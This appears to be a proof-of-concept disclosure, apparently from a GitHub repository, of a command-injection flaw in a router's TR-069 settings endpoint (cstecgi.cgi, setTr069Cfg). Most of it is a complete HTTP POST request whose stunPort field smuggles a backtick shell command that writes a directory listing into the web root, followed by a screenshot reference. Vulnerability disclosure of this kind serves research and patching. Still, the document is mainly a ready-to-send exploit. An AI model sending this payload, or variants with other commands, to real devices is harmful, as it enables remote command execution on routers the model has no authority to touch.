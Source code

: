 

## `stunPort`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"`ls > /web/poc_stunPort.txt`","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image-20241029085513009](./X6000R/images/image-20241029085513009.png)
